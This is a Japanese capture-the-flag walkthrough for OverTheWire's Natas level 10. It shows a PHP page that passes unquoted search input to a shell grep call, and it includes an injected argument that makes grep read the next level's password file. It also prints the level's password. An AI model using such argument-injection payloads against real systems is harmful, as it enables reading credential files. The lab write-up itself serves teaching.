

```

Natas Level 9 → Level 10

Username: natas10
URL:      http://natas10.natas.labs.overthewire.org

```

  

前回の続きだろうが、特殊文字にフィルタをかけたらしい。  

ソースコードを見る。  


```
 <html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas10", "pass": "<censored>" };</script></head>
<body>
<h1>natas10</h1>
<div id="content">

For security reasons, we now filter on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

記号`;|&`をフィルタしている。  

しかし、`grep -i $key`のように$keyがクォートで囲まれてもいないので、好きなようにカスタマイズができる。  

つまり、$keyに「hoge /etc/natas_webpass/natas11」を入れたら、`grep -i hoge /etc/natas_webpass/natas11 dictionary.txt`となり二つのファイルから検索を行うことになる。  

検索する文字は空文字「""」とする。  
`"" /etc/natas_webpass/natas11`  


検索後のソースコード  

```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas10", "pass": "t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu" };</script></head>
<body>
<h1>natas10</h1>
<div id="content">

For security reasons, we now filter on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
/etc/natas_webpass/natas11:**************************
dictionary.txt:
dictionary.txt:African
dictionary.txt:Africans
dictionary.txt:Allah
dictionary.txt:Allah's
dictionary.txt:American
dictionary.txt:Americanism
dictionary.txt:Americanism's
dictionary.txt:Americanisms
dictionary.txt:Americans
```

クリア


